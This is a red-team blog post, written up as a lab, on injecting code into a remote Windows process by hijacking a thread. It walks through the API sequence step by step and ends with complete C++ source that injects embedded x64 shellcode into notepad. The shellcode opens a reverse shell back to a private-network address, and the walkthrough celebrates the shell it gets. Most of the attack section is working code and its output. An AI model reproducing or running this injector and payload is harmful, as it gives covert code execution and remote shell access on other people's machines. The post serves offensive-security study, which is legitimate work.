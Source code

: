 ```yaml
---
layout: post
title: "2024-06-18-injecting to remote process via thread hijacking"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /injecting-to-remote-process-via-thread-hijacking/
---
```


# Injecting to Remote Process via Thread Hijacking

This is a quick lab that looks at the API sequence used by malware to inject into remote processes by leveraging a well known thread hijacking technique.

## Overview

Below lists the API calls that are required to execute this technique:

1. Open a handle `targetProcessHandle` to the process (notepad in our case) we want to inject to with `OpenProcess`
2. Allocate some executable memory `remoteBuffer` in the target process with `VirtualAllocEx`
3. Write shellcode we want to inject into the memory `remoteBuffer` (allocated in step 2), using `WriteProcessMemory`
4. Find a thread ID of the thread we want to hijack in the target process. In our case, we will fetch the thread ID of the first thread in our target process (notepad). We will leverage `CreateToolhelp32Snapshot` to create a `snapshot` of target process's threads and eumerate them with `Thread32Next`. This will give us the thread ID we will be hijacking.
5. Open a handle `threadHijacked` to the thread to be hijacked using `OpenThread`
6. Suspend the target thread - the thread we want to hijack (`threadHijacked`) with `SuspendThread`
7. Retrieve the target thread's context with `GetThreadContext`
8. Update the target thread's (retrieved in step 6) instruction pointer (`RIP` register) to point to the shellcode, which was written into the target process's memory in step 3 using `WriteProcessMemory`
9. Commit the hijacked thread's (upadated in step 7) new context with `SetThreadContext`
10. Resume the hijacked thread with `ResumeThread`
11. Enjoy the reverse shell

## Walkthrough

Steps 1-3 of the technique overview are self-explanatory and have been covered in more detail in my notes in [Code & Process Injection](./) section.

In step 4, what happens is that we simply find our target process's (notepad) main thread ID as seen in the below image:

![](<../../.gitbook/assets/image (609).png>)

In step 5, a handle to that thread `14100` is opened with:

```cpp
threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, 14100);
```

![](<../../.gitbook/assets/image (610).png>)

In step 6, that thread (TID `14100`) with handle `threadHijacked` is suspended with

```cpp
SuspendThread(threadHijacked);
```

![](<../../.gitbook/assets/image (611).png>)

In step 7, we retrieve the hijacked thread's context, which contains CPU registers at that time, among other things. We need to capture the context, since we will be updating the hijacked thread's instruction pointer RIP in steps 8 and 9, and we do not want the hijacked process to crash once we resume it:

![](<../../.gitbook/assets/image (612).png>)

After executing steps 8 and 9, the hijacked thread's RIP is now pointing to the shellcode in our target process notepad.exe memory location `0x000002736ccf0000`:

![](<../../.gitbook/assets/image (613).png>)

![](<../../.gitbook/assets/image (614).png>)

In step 10, once the hijacked thread (`threadHijacked`) is resumed, the shellcode is executed and a reverse shell is executed:

![](<../../.gitbook/assets/image (617).png>)

Below shows the technique in action:

![](../../.gitbook/assets/thread-hijacking.gif)

## Code

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
		"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
		"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
		"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
		"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
		"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
		"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
		"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
		"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
		"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
		"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
		"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
		"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
		"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
		"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
		"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
		"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
		"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
		"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
		"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
		"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
		"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
		"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
		"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
		"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
		"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
		"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
		"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
		"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
		"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	HANDLE targetProcessHandle;
	PVOID remoteBuffer;
	HANDLE threadHijacked = NULL;
	HANDLE snapshot;
	THREADENTRY32 threadEntry;
	CONTEXT context;
	
	DWORD targetPID = 15048;
	context.ContextFlags = CONTEXT_FULL;
	threadEntry.dwSize = sizeof(THREADENTRY32);
	
	targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
	remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	
	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	Thread32First(snapshot, &threadEntry);

	while (Thread32Next(snapshot, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == targetPID)
		{
			threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
			break;
		}
	}
	
	SuspendThread(threadHijacked);
	
	GetThreadContext(threadHijacked, &context);
	context.Rip = (DWORD_PTR)remoteBuffer;
	SetThreadContext(threadHijacked, &context);
	
	ResumeThread(threadHijacked);
}
```
@spotheplanet
